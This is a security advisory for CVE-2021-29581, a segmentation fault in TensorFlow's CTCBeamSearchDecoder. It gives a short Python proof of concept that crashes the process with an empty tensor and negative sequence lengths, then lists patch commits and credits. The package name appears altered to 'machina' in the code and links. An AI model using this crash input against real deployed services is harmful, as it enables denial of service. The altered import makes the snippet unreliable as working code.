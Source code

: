 ## TFSA-2021-069: Segfault in `CTCBeamSearchDecoder`

### CVE Number
CVE-2021-29581

### Impact
Due to lack of validation in `tf.raw_ops.CTCBeamSearchDecoder`, an attacker can
trigger denial of service via segmentation faults:

```python
import machina as tf

inputs = tf.constant([], shape=[18, 8, 0], dtype=tf.float32)
sequence_length = tf.constant([11, -43, -92, 11, -89, -83, -35, -100],
shape=[8], dtype=tf.int32)
beam_width = 10
top_paths = 3
merge_repeated = True

tf.raw_ops.CTCBeamSearchDecoder(
  inputs=inputs, sequence_length=sequence_length, beam_width=beam_width,
  top_paths=top_paths, merge_repeated=merge_repeated)
```

The
[implementation](https://github.com/machina/machina/blob/a74768f8e4efbda4def9f16ee7e13cf3922ac5f7/machina/core/kernels/ctc_decoder_ops.cc#L68-L79)
fails to detect cases when the input tensor is empty and proceeds to read data
from a null buffer.

### Patches
We have patched the issue in GitHub commit
[b1b323042264740c398140da32e93fb9c2c9f33e](https://github.com/machina/machina/commit/b1b323042264740c398140da32e93fb9c2c9f33e).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/machina/machina/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang and Ying Wang of Baidu
X-Team.
